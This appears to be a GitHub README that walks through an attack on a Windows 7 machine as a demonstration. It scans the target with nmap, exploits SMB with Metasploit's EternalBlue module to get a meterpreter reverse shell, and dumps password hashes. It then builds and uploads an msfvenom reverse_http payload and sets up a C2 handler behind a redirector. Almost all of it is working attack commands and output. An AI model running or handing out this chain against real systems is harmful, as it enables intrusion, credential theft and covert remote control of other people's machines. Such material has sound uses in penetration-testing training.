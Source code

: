 # Exploitation & C2 Communication
A demonstration of a basic attack on a windows 7 machine using a C2 server.

## 1. Scan for target
My target is a windows 7 host. The following fast scan will avoid resolving DNS and identify the windos machine I'm looking for.

```
nmap -T4 -F -n -sV 10.10.10.10

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
```

## 2. Choose Exploit
Choose the exploit you wish to use. In this case I will exploit SMB running on port 445 using `ms17_010_eternalblue`. 

```
msfconsole -q
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
```

Use `ifconfig` to determine your local host adapter and set it

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST eth0
LHOST => eth0
```

The Remote host is your victim ip

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 10.10.10.10
RHOST => 10.10.10.10
```

Run the exploit to get a meterpreter prompt

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

meterpreter >
```

## 3. Explore the Victim Device
Once you have a shell you can explore the device

Get the NT/LM Hashes for the users on the system.

```
meterpreter> hashdump

[Username, :, 502, :, aad3c435b514a4eeaad3b935b51304fe, :, c46b9e588fa0d112de6f59fd6d58eae3, :, :, :]
```
| Part | Description |
| ---- | ----------- | 
| `Username` | The user name |
| `500` | relative identifier (500 is administrator) |
| `aad3c435b514a4eeaad3b935b51304fe` |  LM Hash |
| `c46b9e588fa0d112de6f59fd6d58eae3` |  NT Hash |

## 4. Generate a Payload
On your machine generate a payload using `msfvenom`

```
msfvenom -p windows/meterpreter/reverse_http LHOST=eth0 LPORT=80 HttpUserAgent=TEST -f exe -o shell.exe

Saved as: shell.exe
```

## 5. Transfer shell to victim
Upload the shell to your victim and execute it. You can use wireshark to verify communication works.

```
meterpreter > upload shell.exe
meterpreter > execute -f shell.exe

Process 1012 created.
```

## 6. Setting up Exploit / Multi / Handler
We will need to modify meterpreter to use these new interfaces

`LHOST` - Public interface expecting redirector connections
`LPORT` - Chosen port
`OverrideLHOST` - Redirector IP / Domain
`OverrideLPORT` - Port HTTP/HTTPS is runnin on redirector
`OverrideRequestHost` - Forces Meterpreter to respond with overridehost info instead of c2 info

```
msfconsole
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_http
msf6 > set LHOST 12.12.12.12
msf6 > set LPORT 8080
msf6 > set ReverseListenerBindAddress 12.12.12.12
msf6 > set ReverseListenerBindPort 8080
msf6 > set OverrideLHOST 11.11.11.11
msf6 > set OverrideLPORT 80
msf6 > set HttpUserAgent TEST
msf6 > set OverrideRequestHost true
```
